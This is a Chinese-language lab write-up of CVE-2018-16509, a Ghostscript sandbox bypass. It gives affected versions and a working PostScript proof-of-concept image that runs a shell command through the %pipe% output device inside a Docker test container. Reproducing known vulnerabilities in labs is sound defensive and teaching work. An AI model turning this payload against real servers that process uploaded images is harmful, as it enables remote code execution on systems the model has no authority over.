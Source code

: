 （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测'restoration of
privilege（权限恢复）'。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

二、漏洞影响
------------

Ghostscript 9.24之前版本

三、复现过程
------------

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器`docker-compose exec web bash`，将可以看到/tmp/success已被创建：

**poc.png**

    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops

![](./.resource/(CVE-2018-16509)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-16509/

